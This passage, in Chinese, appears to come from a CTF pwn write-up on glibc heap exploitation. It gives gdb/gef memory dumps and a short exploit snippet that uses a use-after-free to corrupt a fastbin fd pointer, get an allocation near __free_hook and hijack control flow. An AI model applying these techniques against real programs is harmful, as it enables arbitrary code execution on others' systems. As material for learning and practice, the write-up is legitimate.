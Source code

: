 可以看到我们已经得到了我们想要的0x200

我们查看对应的fast bin上（已经远超了fastbin的范围）的存放的chunk是否正确

```
gef➤  x/gx 0x7ffff7fc2b20 + 8 +  30*8
0x7ffff7fc2c18: 0x0000555555758120
```

可以看到存放的就是我们刚才merge过后的0x20的chunk，所以我们已经完成了fast bin的布局。

### <a class="reference-link" name="%E6%8B%BF%E5%88%B0free_hook%E5%86%85%E5%AD%98%E9%99%84%E8%BF%91%E7%9A%84%E6%8E%A7%E5%88%B6%E6%9D%83"></a>拿到free_hook内存附近的控制权

我们完成了fastbin的布局，就可以利用UAF漏洞原型修改fastbin chunk的fd指针，进而在两次分配之后，拿到这个fd指针。<br>
修改fd的exp代码是

```
malloc_free_hook_target_addr = 0x1bdf + leak_main_arena_88 - 8
edit(4, 0x1f0,p64(malloc_free_hook_target_addr))
```

0x1f0这个大小必须要正确，因为如果不是这个值，就会进入一个realloc流程，不要进入这个流程。

同样在gdb中观察是否写入正确

```
gef➤  heap chunks
Chunk(addr=0x555555758010, size=0x90, flags=PREV_INUSE)
    [0x0000555555758010     43 43 43 43 43 43 43 43 43 43 43 43 43 43 43 43    CCCCCCCCCCCCCCCC]
Chunk(addr=0x5555557580a0, size=0x90, flags=PREV_INUSE)
    [0x00005555557580a0     42 42 42 42 42 42 42 42 42 42 42 42 42 42 42 42    BBBBBBBBBBBBBBBB]
Chunk(addr=0x555555758130, size=0x200, flags=PREV_INUSE)
    [0x0000555555758130     4f 47 fc f7 ff 7f 00 00 0a 47 47 47 47 47 47 47    OG.......GGGGGGG]
Chunk(addr=0x555555758330, size=0x20ce0, flags=PREV_INUSE)  ←  top chunk
gef➤  x/gx 0x7ffff7fc2b20 + 8 + 30 * 8
0x7ffff7fc2c18: 0x0000555555758120
gef➤  x/gx 0x0000555555758120
0x555555758120: 0x0000000000000000
gef➤  x/gx 0x0000555555758120 + 8
0x555555758128: 0x0000000000000201
gef➤  x/gx 0x0000555555758120 + 8 +8
0x555555758130: 0x00007ffff7fc474f

malloc_free_hook_target_addr的地址就是0x00007ffff7fc474f
```

我们已经成功修改了fd指针指向了我们想要的区域。<br>
下面需要进行两次分配0x200 chunk。

第一次分配弹出无用的fastbin，第二次分配得到对free_hook的内存的指针。<br>
之后就是往里面写数据，写数据的时候还有一个坑，就是要写入\x00字符，否则printf无法返回，程序会卡在那里。<br>
原因是free_hook附近的数据显然是有用的，如果我们修改了就有可能导致程序出问题。

之后就是调用free实现对free_hook的劫持。至此我们已经拿到了PC的控制权，PWN！
